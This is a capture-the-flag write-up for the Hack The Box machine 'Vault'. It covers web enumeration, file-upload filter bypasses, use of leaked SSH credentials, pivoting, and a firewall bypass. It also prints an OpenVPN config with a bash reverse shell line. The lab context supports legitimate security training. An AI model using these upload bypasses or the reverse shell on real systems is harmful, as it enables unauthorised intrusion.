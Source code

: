 ```yaml
---
layout: offsec
category: [offsec]
---
```


<img src="/assets/images/vault.png" >

Vault: 10.10.10.109
===================

Recon:
======

```
python3 dirsearch.py -u 10.10.10.109 -e *

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: nmap | Threads: 10 | Wordlist size: 6040

Error Log: /home/srbz/git/tools/_web/dirsearch/logs/errors-18-11-13_02-07-01.log

Target: 10.10.10.109

[02:07:01] Starting: 
[02:07:04] 403 -  298B  - /.ht_wsr.txt
(...)
[02:07:50] 200 -  299B  - /index.php[02:07:50] 
[02:08:10] 200 -  299B  - /index.php/login/
(...)
Task Completed

```

<img src="/assets/images/index_vault.png" style="width: 70%">

After a few enumerations, you should have quickly reached this login page. If you didn't, you should consider enumerating recursevily directories.

<img src="/assets/images/login_vault.png" style="width: 35%">

> Trying to pass this login page was not the solution. After a while I told my self, what if the index page is saying right. So kept enumerating and found new files.

```
python3 dirsearch.py -u http://10.10.10.109/sparklays/design -w common.txt -e html,php,txt -f

(...)
[20:18:43] 200 -   72B  - /sparklays/design/design.html
(...)
```

This page gave access to a file upload module with restrictions. Hence, impossible to tell the server to execute commands through a script directly. I remembered few [technics](https://www.owasp.org/index.php/Unrestricted_File_Upload) for bypassing this type of server side control:

+ Adding a double extension: `myFile.jpg.php`
+ Changing letters to their capital forms: `myFile.PhP`
+ Using short name (for Windows servers)
+ Dropping the string after the first extension by using the `NULL` character `0x00`: `myFile.jpg0x00.php`
+ Finding missed extension (e.g. `.php5`, `.pht`, `.phtml`, `.shtml`, `.asa`, `.cer`, `.asax`, `.swf`, or `.xap`)

> Replacing the reverse shell extension for the missed extension `.php5` gave access to the ubuntu host as `www-data`.

PrivEsc
=======

My first reflex was to check what services were reachable from the internal. 

```
$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:5902          0.0.0.0:*               LISTEN      -               
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5900          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
udp        0      0 0.0.0.0:5353            0.0.0.0:*                           -               
udp        0      0 192.168.122.1:53        0.0.0.0:*                           -               
udp        0      0 0.0.0.0:67              0.0.0.0:*                           -               
udp        0      0 0.0.0.0:631             0.0.0.0:*                           -               
udp        0      0 0.0.0.0:58192           0.0.0.0:*                           -               
udp6       0      0 :::5353                 :::*                                -               
udp6       0      0 :::48208                :::*                                -   
```

Note that local IP adress `192.168.122.1:53` is on another network. 

Since nmap was disabled for the `www-data` user, I try to run `socat` and `ncat` in order to be able to do port forwarding, but they wasn't installed. Then it took a second to find the files left on the desktop, which allowed me to rotate through ssh!

```bash
cat key
itscominghome

cat /home/dave/Desktop/ssh
dave
Dav3therav3123

cat Servers 
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
```

```
ssh -fNtD 9050 dave@10.10.10.109 [-L 127.0.0.1:8888:192.168.122.4:80]
proxychains firefox 192.168.122.4
```

<img src="/assets/images/vault_vpn.jpg" style="width:30%">

This [medium article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) defines well what it is and how it's possible to pop a shell out of an OpenVPN config file, so I wont go in details.

```
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```

```
cat ssh
dave
dav3gerous567


cat user*
a4***************************3
```

> At this point you could have change the root password and connect with ssh using these credentials and found alex's `.bash_history` where you would have seen that he was pinging the `192.168.5.2` IP adress. But no chance, this adress was no longuer reachable. 

All the traffic to the Vault was passing trough the  `192.168.122.5` firewall. 

Bypassing firewall was easy. All I had to do was adding another IP adress to the same interface and remove that routing. Then, running a basic scan on this target to unveil the `987/tcp` port wich was exposing a ssh service that was using the same credential then the DNS box.

```
root@DNS:# route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun0
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun1
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun2
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun3
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun4
10.200.0.1      *               255.255.255.255 UH    0      0        0 tun5
192.168.5.0     192.168.122.5   255.255.255.0   UG    0      0        0 ens3
192.168.122.0   *               255.255.255.0   U     0      0        0 ens3

root@DNS:# ip address add 192.168.5.137/24 dev ens3
root@DNS:# route del -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
root@DNS:# ping 192.168.5.2
PING 192.168.5.2 (192.168.5.2) 56(84) bytes of data.
64 bytes from 192.168.5.2: icmp_seq=1 ttl=64 time=1.56 ms
```

Welcome to the Vault!
=====================

To complete the box, you had to `scp` the `root.txt.gpg` back to the ubuntu box and pass the key `itscominghome`. ;)

```
You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
      gpg: .srb: unknown suffix
      Enter new filename [root.txt]: root.txt

cat root.txt 
ca4********************819
```
